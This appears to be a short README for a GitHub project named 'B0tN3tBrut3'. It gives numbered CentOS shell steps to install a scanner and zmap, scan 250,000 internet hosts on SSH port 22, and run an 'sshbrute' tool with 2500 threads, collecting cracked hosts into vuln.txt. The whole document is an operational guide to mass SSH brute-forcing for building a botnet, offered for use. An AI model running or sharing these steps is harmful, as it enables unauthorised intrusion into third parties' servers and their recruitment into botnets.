 

  (CentOS 6.9)

 
- git clone https://github.com/YourAnonXelj/B0tN3tBrut3.git



  1- sh ScannerInstall.sh         
   
   
     - if it asks for [Yes] press enter
    
     - if it asks for [autodetect] press enter


  
  2- sh CentOS_zmap_auto_install.sh

  3- chmod 777 * 

  4- zmap -p22 -o mfu.txt -N 250000     //-// not mfu2.txt or mfulol.txt dont change

  5-   ./sshbrute 2500 

         Result = vuln.txt

<img src="https://raw.githubusercontent.com/YourAnonXelj/B0tN3tBrut3/master/lul2.png">
